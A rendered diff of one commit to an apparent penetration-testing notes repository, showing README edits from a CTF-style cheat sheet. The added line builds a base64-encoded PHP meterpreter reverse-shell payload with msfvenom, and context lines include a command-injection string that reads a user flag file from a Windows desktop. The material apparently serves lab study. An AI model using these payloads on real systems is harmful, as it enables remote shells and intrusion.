

Before and after one commit to mikiwilo10/hacking_common_guide, a Markdown page: README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -359,6 +363,8 @@ msfvenom --list payloads | grep "linux/x64"
 msfvenom --list formats
 
 
+
+msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
 
 
 -F <Format>
@@ -852,7 +866,8 @@ BitlockerActiveMonitoringLogs') ; type C:\Users\dev\Desktop\user.txt  ; dir ; #(
 curl http://10.10.186.68 -v
 
 
-user@machine$ curl http://10.10.186.68 -v
+
+curl http://10.10.186.68 -v
 *   Trying 10.10.186.68:80...
 * TCP_NODELAY set
 * Connected to 10.10.186.68 (10.10.186.68) port 80 (#0)
```
Also changed, not shown: other parts of README.md (+143 -6 lines), WEB/02-Cross-site Scripting(XSS)/02-Cross-site Scripting (XSS).md (+22 -1 lines), tryhackme/Stealth/Stealth.md (added, +522 -0 lines).
